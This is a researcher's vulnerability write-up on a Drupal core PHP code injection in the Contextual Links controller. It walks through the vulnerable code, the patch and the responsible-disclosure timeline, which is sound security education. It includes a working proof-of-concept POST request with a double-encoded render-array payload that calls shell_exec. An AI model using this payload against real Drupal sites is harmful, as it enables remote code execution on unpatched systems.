 ```yaml
---
layout: default
title: Drupal Core PHP Code Injection
categories: security
---
```


# Drupal Core PHP Code Injection

## Drupal Overview and History

Drupal is a content management system. In March of 2018, a vulnerability dubbed Drupalgeddon2 was announced ([CVE-2018-7600](https://nvd.nist.gov/vuln/detail/cve-2018-7600), [SA-CORE-2018-002](https://www.drupal.org/sa-core-2018-002)) that enabled an unauthenticated attacker to achieve remote code execution on most versions of Drupal with default configuration.

The vulnerability was caused by Drupal's [render arrays](https://www.drupal.org/docs/drupal-apis/render-api/render-arrays). Render arrays are just ordinary PHP arrays, except that keys that start with # are given special processing that allow code execution by design. These generally aren't meant to come from user input, so the Drupal maintainers patched this by implementing a broad [RequestSanitizer](https://github.com/drupal/drupal/blob/8.6.1/core/lib/Drupal/Core/Security/RequestSanitizer.php). The sanitizer runs early in the page load and strips array keys that begin with # from the query string.

Additional paths for exploitation were found in April 2018 ([SA-CORE-2018-004](https://www.drupal.org/sa-core-2018-004)) and the RequestSanitizer was expanded to process the request body and cookies as well.

## Search
The knowledge that something like Drupalgeddon2 could be lurking in the codebase for so long motivated me to begin looking for my own RCE in Drupal in my free time.

I made a spreadsheet of every URL route in Drupal and initially focused on routes available to unauthenticated users. After a few weeks without success, I started looking at routes that required low-level user permissions, and pretty quickly found an issue in the core Contextual Links module.

## Vector
The [Contextual Links module](https://www.drupal.org/docs/8/core/modules/contextual/working-with-contextual-links) enables users to edit content or perform other tasks while browsing their site without navigating to the administrator UI.

![Person using contextual links module](/assets/contextual-menu.gif "Image from Drupal.org under the <a href='https://www.drupal.org/terms'>Creative Commons License, Attribution-ShareAlike 2.0</a>")

As the functionality is used in several different contexts, the controller that handles rendering them is very generic.

```php
  /**
   * Returns the requested rendered contextual links.
   *
   * Given a list of contextual links IDs, render them. Hence this must be
   * robust to handle arbitrary input.
   */
  public function render(Request $request) {
    $ids = $request->request->get('ids');
    if (!isset($ids)) {
      throw new BadRequestHttpException(t('No contextual ids specified.'));
    }

    $rendered = [];
    foreach ($ids as $id) {
      $element = [
        '#type' => 'contextual_links',
        '#contextual_links' => _contextual_id_to_links($id),
      ];
      $rendered[$id] = $this->renderer->renderRoot($element);
    }

    return new JsonResponse($rendered);
  }
```

We can see that user input from the `ids` parameter in the request POST body is processed by `_contextual_id_to_links` before being added to a render array. The render array is then rendered and the result is returned to the user. Let's look at `_contextual_id_to_links`.

```php
/**
 * Unserializes the result of _contextual_links_to_id().
 *
 * @see _contextual_links_to_id
 *
 * @param string $id
 *   A serialized representation of a #contextual_links property value array.
 *
 * @return array
 *   The value for a #contextual_links property.
 */
function _contextual_id_to_links($id) {
  $contextual_links = [];
  $contexts = explode('|', $id);
  foreach ($contexts as $context) {
    list($group, $route_parameters_raw, $metadata_raw) = explode(':', $context);
    parse_str($route_parameters_raw, $route_parameters);
    $metadata = [];
    parse_str($metadata_raw, $metadata);
    $contextual_links[$group] = [
      'route_parameters' => $route_parameters,
      'metadata' => $metadata,
    ];
  }
  return $contextual_links;
}
```

Here we see the user-provided id is split into three parts separated by :. The latter two parts are then passed through the PHP [parse_str](https://www.php.net/manual/en/function.parse-str.php) which treats them as a URL-encoded query string.

At this point it might seem like all we need to do is pass a double-URL-encoded query string in for one of these parameters and we'll have our render array injection, but if I recall correctly, that didn't work. However, the metadata parameter receives further processing later on that provides another avenue.

```php
/**
 * Implements hook_contextual_links_view_alter().
 *
 * @see \Drupal\contextual\Plugin\views\field\ContextualLinks::render()
 */
function contextual_contextual_links_view_alter(&$element, $items) {
  if (isset($element['#contextual_links']['contextual'])) {
    $encoded_links = $element['#contextual_links']['contextual']['metadata']['contextual-views-field-links'];
    $element['#links'] = Json::decode(rawurldecode($encoded_links));
  }
}
```

By passing a JSON encoded array for the `contextual-views-field-links` subparameter of `metadata`, we can inject a render array while evading the `RequestSanitizer`.

## Proof of Concept
The POC below requires the ‘Access Contextual Links' permission to be granted to unauthenticated users.

```http
POST /contextual/render HTTP/1.1
Host: local.test
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 906

ids[]=contextual::contextual-views-field-links=%257B%250A%2520%2520%2520%2520%2522asdf%2522%253A%250A%2520%2520%2520%2520%257B%250A%2520%2520%2520%2520%2520%2520%2520%2520%2522title%2522%253A%2520%257B%2522%2523lazy_builder%2522%253A%2520%255B%2522shell_exec%2522%252C%2520%255B%2522touch%2520%252Ftmp%252Fhellofromviews%2522%255D%255D%257D%252C%250A%2520%2520%2520%2520%2520%2520%2520%2520%2522href%2522%253A%2520%2522asdf%2522%252C%250A%2520%2520%2520%2520%2520%2520%2520%2520%2522attributes%2522%253A%250A%2520%2520%2520%2520%2520%2520%2520%2520%257B%250A%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2522class%2522%253A%255B%250A%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2522use-ajax%2522%250A%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%255D%250A%2520%2520%2520%2520%2520%2520%2520%2520%257D%250A%2520%2520%2520%2520%257D%250A%257D
```

The payload corresponds to a double-URL-encoding of this:

```json
{
    "asdf":
    {
        "title": {"#lazy_builder": ["shell_exec", ["touch /tmp/hellofromviews"]]},
        "href": "asdf",
        "attributes":
        {
            "class":[
                "use-ajax"
            ]
        }
    }
}
```

When the array is rendered, shell_exec is called and a file is created in the tmp directory as proof.

## Patch
The issue was patched by returning an HMAC code along with the contextual links id list at the time it's generated, and then taking that code as an additional parameter at render time and validating it.

## Timeline
* August 29, 2018 08:50 PM - Reported to Drupal security team
* August 30, 2018 12:57 AM - Report validated by Drupal security team
* October 17, 2018 - Fix released in Drupal 8.5.8 and Drupal 8.6.2 ([DRUPAL-SA-CORE-2018-006](https://www.drupal.org/sa-core-2018-006))

